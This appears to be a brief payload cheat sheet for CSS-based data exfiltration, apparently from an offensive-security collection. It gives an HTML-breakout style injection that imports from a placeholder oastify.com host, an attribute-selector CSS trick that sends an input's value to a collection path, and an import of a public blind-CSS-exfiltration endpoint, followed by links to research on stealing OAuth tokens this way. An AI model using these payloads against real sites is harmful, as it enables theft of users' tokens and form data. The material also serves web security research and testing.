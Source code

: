 
```bash
  "><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

```bash
<input value=1337>
<style>
input[value="1337"] {
   --value: url(/collectData?value=1337);
}
input {
   background:var(--value,none);
}
</style>
```


```bash
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';
</style>
```
- https://blog.voorivex.team/css-data-exfiltration-to-steal-oauth-token
-  https://portswigger.net/research/blind-css-exfiltration
- https://github.com/hackvertor/blind-css-exfiltration/tree/main
- https://github.com/VoorivexTeam/CSS-Exfiltration/tree/main
